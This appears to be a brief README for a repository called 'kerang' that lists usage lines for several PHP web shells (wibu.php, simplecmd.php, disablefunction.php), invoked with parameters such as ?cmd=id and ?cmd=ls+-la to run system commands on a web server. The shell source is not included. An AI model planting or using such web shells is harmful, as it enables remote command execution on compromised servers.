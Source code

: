 # kerang

use wibu.php?cmd=id
-------------------------------------------
use simplecmd.php?da=id
-----------------------------------------------------
**disablefunction.php?cmd=ls+-la**
-----------------------------------------------------------
